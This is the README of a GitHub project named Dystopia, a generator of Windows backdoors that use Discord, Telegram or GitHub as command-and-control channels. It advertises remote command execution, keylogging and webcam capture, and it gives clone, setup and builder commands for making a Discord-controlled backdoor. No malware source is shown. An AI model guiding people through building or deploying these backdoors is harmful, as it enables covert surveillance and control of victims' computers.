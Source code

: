 <h1 align="center">
  <br>
  <a href="https://github.com/3ct0s/"><img src="https://i.ibb.co/K0RqpVb/Dystopia.png" width=600 weigth=500 alt="Dystopia"></a>
  <br>
  Dystopia
  <br>
</h1>

<h4 align="center">Dystopia Command and Control</h4>

<p align="center">
    <img src="https://img.shields.io/badge/Backdoor_Platform-Windows-blue">
    <img src="https://img.shields.io/badge/Version-2.1.1-blue">
    <img src="https://img.shields.io/badge/Python-3.8.9-blue">
</p>

---

## What is Dystopia?

Dystopia is a malware generator that generates backdoors which use online platforms as C2s. This includes Discord, Telegram and Github. 

Our goal is to prove that anything can be a C2, if you want to :) ...

## How does it work?

The Dystopia backdoors are using libraries which allow the backdoor to act as a "Bot" for the above-mentioned platforms. Essentially the attacker contacts the bot and specifies a malicious command to execute on the target "Agent". 

Dystopia is equipped with a lot of features **some** of which are:
- Encrypted traffic (HTTPS)
- Running system commands on target Agent
- Keylogger (Limited to Discord)
- Grabbing webcam snaps
- Multiple online agents at a time (Limited to Discord & GitHub)

## Installation and Usage

Dystopia is better installed and used on Kali Linux:
```
git clone https://github.com/3ct0s/Dystopia-c2
cd ./Dystopia-c2
chmod +x setup.sh
./setup.sh
```
Once this is done we can use the builder. Let's build a discord based C2 backdoor:
```
python builder.py
use discord
set name <backdoor-name>
set guild-id <server id from discord>
set bot-token <discord bot token>
set channel-id <channel id from discord server>
set webhook <discord webhook>
build
```

## How to Setup Dystopia
Since the setup process is very specific for each platform:

> Please follow the [setup guide](https://github.com/3ct0s/dystopia-c2/wiki/) to setup Dystopia.

## Contributors
Contributions are welcome to our GitHub repo! We value community involvement and appreciate all types of contributions, from bug reports to code. Join us in building something great and making a positive impact on the world. Get involved today!

## Disclaimer
This github repository is made for educational purposes only. The developer is not responsible for any misuse of this software. **Do not use this software for illegal purposes.**
